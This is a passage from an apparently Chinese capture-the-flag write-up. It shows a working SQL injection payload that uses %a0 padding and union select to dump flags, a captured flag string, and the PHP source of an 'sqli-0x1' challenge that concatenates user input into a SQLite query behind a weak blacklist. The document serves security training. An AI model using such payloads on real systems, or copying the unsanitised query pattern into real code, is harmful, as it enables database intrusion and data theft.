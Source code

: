 ```
1'%a0union%a0select%a01,(select%a0group_concat(flag)%a0from%a0cgctf.pcnumber),3,4%a0||%27
```



查询到flag

`flag{a3074919ab0bc09fc5945ceeeaf1674e}`









### sqli-0x1



```php
<?php
error_reporting(0);
error_log(0);

require_once("flag.php");

function is_trying_to_hak_me($str)
{   
    $blacklist = ["' ", " '", '"', "`", " `", "` ", ">", "<"];
    if (strpos($str, "'") !== false) {
        if (!preg_match("/[0-9a-zA-Z]'[0-9a-zA-Z]/", $str)) {
            return true;
        }
    }
    foreach ($blacklist as $token) {
        if (strpos($str, $token) !== false) return true;
    }
    return false;
}

if (isset($_GET["pls_help"])) {
    highlight_file(__FILE__);
    exit;
}
   
if (isset($_POST["user"]) && isset($_POST["pass"]) && (!empty($_POST["user"])) && (!empty($_POST["pass"]))) {
    $user = $_POST["user"];
    $pass = $_POST["pass"];
    if (is_trying_to_hak_me($user)) {
        die("why u bully me");
    }

    $db = new SQLite3("/var/db.sqlite");
    $result = $db->query("SELECT * FROM users WHERE username='$user'");
    if ($result === false) die("pls dont break me");
    else $result = $result->fetchArray();

    if ($result) {
        $split = explode('$', $result["password"]);
        $password_hash = $split[0];
        $salt = $split[1];
        if ($password_hash === hash("sha256", $pass.$salt)) $logged_in = true;
        else $err = "Wrong password";
    }
    else $err = "No such user";
}
?>
```